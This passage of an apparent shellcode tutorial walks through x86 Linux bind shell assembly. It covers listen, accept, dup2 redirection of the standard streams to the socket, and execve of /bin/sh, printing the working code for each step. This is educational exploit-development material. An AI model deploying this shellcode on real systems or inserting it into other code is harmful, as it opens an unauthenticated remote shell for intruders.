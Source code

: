 Let's call the "listen" systemcall wich will listen for connections on the socket:
```nasm 
;listen(sockfd, 0);

xor eax, eax
mov ax, 0x16b   ;listen system call number
mov ebx, edi    ;sockfd value
xor ecx, ecx    ;NULL value
int 0x80        ;Go for it
```

The "accept" systemcall is used to accept a connection on the socket:
```nasm
;int connfd = accept(sockfd, NULL, NULL);

xor eax, eax
mov ax, 0x16c   ;accept system call number
mov ebx, edi    ;sockfd
xor ecx, ecx    ;NULL
xor edx, edx    ;NULL
xor esi, esi    ;initialize esi to NULL
int 0x80        ;Go for it
mov esi, eax    ;move accept return value in esi
```

This part of the code will use dup2 to redirect the STDIN, STDOUT and STDERR into the socket:
```nasm
;for (int i = 0; i < 3; i++)
;{
;    dup2(connfd, i);
;}

mov cl, 3
dup:
    xor eax, eax
    mov al, 0x3f    ;dup system call number 
    mov ebx, esi    ;mov the fd variable in ebx
    dec cl          ;dec to cl 1
    int 0x80        ;Go for it
    inc cl          ;inc to cl 1
    loop dup
```

It's finaly the time to execute the shell:
```nasm
;execve("/bin/sh", NULL, NULL);

xor eax, eax
push eax
push 0x68732f2f
push 0x6e69622f     ;push "/bin//sh" on the stack
mov al, 0xb         ;execve system call number
mov ebx, esp        ;initialize execve first parameters with a pointer to /bin//sh
xor ecx, ecx        ;NULL
xor edx, edx        ;NULL
int 0x80            ;Go for it
```

